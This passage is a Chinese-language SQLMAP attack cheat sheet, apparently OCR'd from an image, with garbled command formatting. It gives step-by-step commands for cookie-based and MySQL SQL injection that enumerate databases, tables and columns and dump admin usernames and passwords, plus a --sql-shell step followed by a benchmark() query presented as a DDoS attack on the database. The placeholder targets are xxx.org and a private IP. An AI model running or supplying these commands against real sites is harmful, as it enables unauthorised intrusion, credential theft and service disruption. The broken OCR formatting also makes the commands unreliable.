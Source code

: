 ### 二、SQLMAP用于Cookie注入

(1) cookie注入，猜解表

`win` `:` `python sqlmap.py` `-``u` `"[http://www.xxx.org/jsj/shownews.asp](http://www.xxx.org/jsj/shownews.asp)"` `--cookie "id=31" --table --level 2`

(2) 猜解字段，(通过1的表猜解字段，假如表为admin)

`win` `:``python sqlmap.py` `-``u` `"[http://www.xxx.org/jsj/shownews.asp](http://www.xxx.org/jsj/shownews.asp)"` `--cookie "id=31" --columns -T`

`admin` `--level 2`

(3) 猜解内容

`win` `:``python sqlmap.py` `-``u` `"[http://www.xxx.org/jsj/shownews.asp](http://www.xxx.org/jsj/shownews.asp)"` `--cookie "id=31" --dump -T`

`admin` `-``C` `"username,password"` `--level 2`

### 三、SQLMAP用于mysql中DDOS攻击(1) 获取一个Shell
`win``:`

`python sqlmap.py` `-``u [``url``]http``:``/``/``192.1``68.1``59.1``/``news.php?``id``=``1``[``/``url``]` `--sql-shell`

`Linux``:`

`sqlmap` `-``u [``url``]http``:``/``/``192.1``68.1``59.1``/``news.php?``id``=``1``[``/``url``]` `--sql-shell`

(2) 输入执行语句完成DDOS攻击
`select` `benchmark``(``99999999999``,``0``x``70726``f``62616``e``646``f``70726``f``62616``e``646``f``70726``f``62616``e``646``f``)`

### 四、SQLMAP用于mysql注入

(1) 查找数据库
`python sqlmap.py` `-``u` `"[http://www.xxx.com/link.php?id=321](http://www.xxx.com/link.php?id=321)"` `--dbs`

(2) 通过第一步的数据库查找表(假如数据库名为dataname)
`python sqlmap.py` `-``u` `"[http://www.xxx.com/link.php?id=321](http://www.xxx.com/link.php?id=321)"` `-``D dataname` `--tables`

(3) 通过2中的表得出列名(假如表为table\_name)

1

`python sqlmap.py` `-``u` `"[http://www.xxx.com/link.php?id=321](http://www.xxx.com/link.php?id=321)"` `-``D dataname` `-``T table_name` `--columns`

(4) 获取字段的值(假如扫描出id,user,password字段)
`python sqlmap.py` `-``u` `"[http://www.xxx.com/link.php?id=321](http://www.xxx.com/link.php?id=321)"` `-``D dataname` `-``T table_name` `-``C`

`"id,user,password"` `--dump`
